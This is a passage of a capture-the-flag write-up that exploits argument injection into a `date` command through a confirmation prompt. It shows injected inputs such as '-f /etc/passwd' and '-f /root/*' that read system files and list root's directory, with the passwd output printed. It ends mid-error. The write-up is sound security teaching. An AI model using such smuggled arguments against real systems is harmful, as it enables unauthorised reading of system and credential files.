 After spending too long on trying to run 2 processes simultaneously, I looked more thoroughly at the userinput we could control. I noticed that after selecting dates, you are asked confirmation. If you say no, you can supply your own input with interesting results:
```bash
Please select the date you meant:
                                                          
You've entered '-d $TARGET_DATE +%Y-%m-%d'. Is that right?
date: invalid date ‘$TARGET_DATE’
Sorry, that wasn't correct!
```

The `date` function seems to be recognizing the -d flag without issue? Perhaps we are able to provide our own arguments to execute.

The [GTFObins](https://gtfobins.github.io/gtfobins/date/) site has a page for `date`; we might be able to utilize arbitrary read capabilities.
```bash
Please select the date you meant:
                                               
You've entered '-f /etc/passwd'. Is that right?
date: invalid date ‘root:x:0:0:root:/root:/bin/bash’
date: invalid date ‘bin:x:1:1:bin:/bin:/sbin/nologin’
date: invalid date ‘daemon:x:2:2:daemon:/sbin:/sbin/nologin’
date: invalid date ‘adm:x:3:4:adm:/var/adm:/sbin/nologin’
date: invalid date ‘lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin’
date: invalid date ‘sync:x:5:0:sync:/sbin:/bin/sync’
date: invalid date ‘shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown’
date: invalid date ‘halt:x:7:0:halt:/sbin:/sbin/halt’
date: invalid date ‘mail:x:8:12:mail:/var/mail:/sbin/nologin’
date: invalid date ‘news:x:9:13:news:/usr/lib/news:/sbin/nologin’
date: invalid date ‘uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin’
date: invalid date ‘operator:x:11:0:operator:/root:/sbin/nologin’
date: invalid date ‘man:x:13:15:man:/usr/man:/sbin/nologin’
date: invalid date ‘postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin’
date: invalid date ‘cron:x:16:16:cron:/var/spool/cron:/sbin/nologin’
date: invalid date ‘ftp:x:21:21::/var/lib/ftp:/sbin/nologin’
date: invalid date ‘sshd:x:22:22:sshd:/dev/null:/sbin/nologin’
date: invalid date ‘at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin’
date: invalid date ‘squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin’
date: invalid date ‘xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin’
date: invalid date ‘games:x:35:35:games:/usr/games:/sbin/nologin’
date: invalid date ‘cyrus:x:85:12::/usr/cyrus:/sbin/nologin’
date: invalid date ‘vpopmail:x:89:89::/var/vpopmail:/sbin/nologin’
date: invalid date ‘ntp:x:123:123:NTP:/var/empty:/sbin/nologin’
date: invalid date ‘smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin’
date: invalid date ‘guest:x:405:100:guest:/dev/null:/sbin/nologin’
date: invalid date ‘nobody:x:65534:65534:nobody:/:/sbin/nologin’
date: invalid date ‘user:x:1000:1000:Linux User,,,:/home/user:/home/user/.user-entrypoint.sh’
Sorry, that wasn't correct!
```
With arbitrary read, we should be able to display the contents of the flag.txt as well!
```bash
Please select the date you meant:
                                                  
You've entered '-f /root/flag.txt'. Is that right?
date: invalid date ‘[ Sorry, your flag will be displayed once you have code execution as root ]’
Sorry, that wasn't correct!
```
Unexpectedly, it looks like flag.txt was a bait after all. It says we must have code execution as root for the flag, but I thought perhaps I can "guess" the name of the flag file using wildcards:
```bash
Please select the date you meant:
                                           
You've entered '-f /root/*'. Is that right?
date: the argument ‘/root/get_flag_random_suffix_345674837560870345’ lacks a leading '+';
when using an option to specify date(s), any non-option
```